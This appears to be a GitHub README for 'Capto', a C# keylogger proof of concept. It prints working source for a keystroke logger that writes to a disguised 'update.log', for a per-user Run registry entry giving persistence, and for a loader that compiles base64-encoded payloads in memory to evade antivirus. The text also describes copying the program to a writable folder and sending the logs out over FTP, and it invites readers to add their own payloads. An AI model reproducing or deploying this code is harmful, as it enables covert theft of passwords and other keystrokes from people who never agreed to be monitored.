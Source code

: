 # Capto
Capto is a basic POC of a keylogger written in C#. It compiles at runtime in-memory to avoid anti-virus detection. It does this by using encoding and reflection. I initially developed this to show people what havoc a simple program could cause with a low privileged account whilst staying undetected by defense mechanisms. Somewhere along the way I lost the project and I always felt kinda sad about it. That version also included a payload where someone could use the Telegram API Bot as C2C (sending screenshots and basic commands to do some exfiltration and enumeration). I've now rewritten the program but just with the basics.

# Process
Upon executing it'll decode the base64 encoded payloads, compile them at runtime where it will then copy itself to a writable folder, add a registry entry for persistence and finally start the keylogger to log the keys that are entered. These are written to a update.log file and will be extracted using ftp.

# Payloads
It currently holds two basic payloads, one for adding a registry entry and the other is the actual keylogger. You can use the included WPF application: ```base64-encoder-decoder``` (or any other encoder) to add your own payloads.

> Note: The compiler expects the namespace and main class to be called ```Program```. It'll then try to invoke ```Main```.

Keylogger:
```cs
using System;
using System.IO;
using System.Runtime.InteropServices;

namespace Program
{    public class Program
    {
        [DllImport("user32.dll")]
        public static extern int GetAsyncKeyState(Int32 i);

        public static void Main(string arg)
        {
            string path = string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.log");

            while (true)
            {
                for (int i = 0; i < 255; i++)
                {
                    int key = GetAsyncKeyState(i);
                    if (key == 1 || key == 32769)
                    {
                        StreamWriter file = new StreamWriter(path, true);
                        file.Write((char)i);
                        file.Close();
                        break;
                    }
                }
            }
        }
    }
}
```

Registry entry:
```cs
using Microsoft.Win32;
using System;

namespace Program
{
    public class Program
    {
        public static void Main(string arg)
        {
            RegistryKey key = Registry.CurrentUser.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Run");
            key.SetValue("Windows", string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.exe"));
            key.Close();
        }
    }
}
```
> Note: We use the local user path in the registry. That way we don't have to be local administrator to add the entry to the registry. Downside is that it'll only run as the current logged in user.

# Reflection
This is the part that compiles and runs the payloads. Don't forget to add the necessary libraries for your payload as reference:
```cs
static void CompileAndRun(string payload)
        {
            CompilerParameters CompilerParams = new CompilerParameters
            {
                GenerateInMemory = true,
                TreatWarningsAsErrors = false,
                GenerateExecutable = false,
                CompilerOptions = "/optimize"
            };

            string[] references = { "System.dll", "mscorlib.dll" };
            CompilerParams.ReferencedAssemblies.AddRange(references);

            CSharpCodeProvider provider = new CSharpCodeProvider();
            CompilerResults compile = provider.CompileAssemblyFromSource(CompilerParams, payload);

            Module module = compile.CompiledAssembly.GetModules()[0];
            Type mt = null;
            MethodInfo methInfo = null;

            if (module != null)
                mt = module.GetType("Program.Program");
            if (mt != null)
                methInfo = mt.GetMethod("Main");
            if (methInfo != null)
                methInfo.Invoke(null, new object[] { "arg" });
        }
```
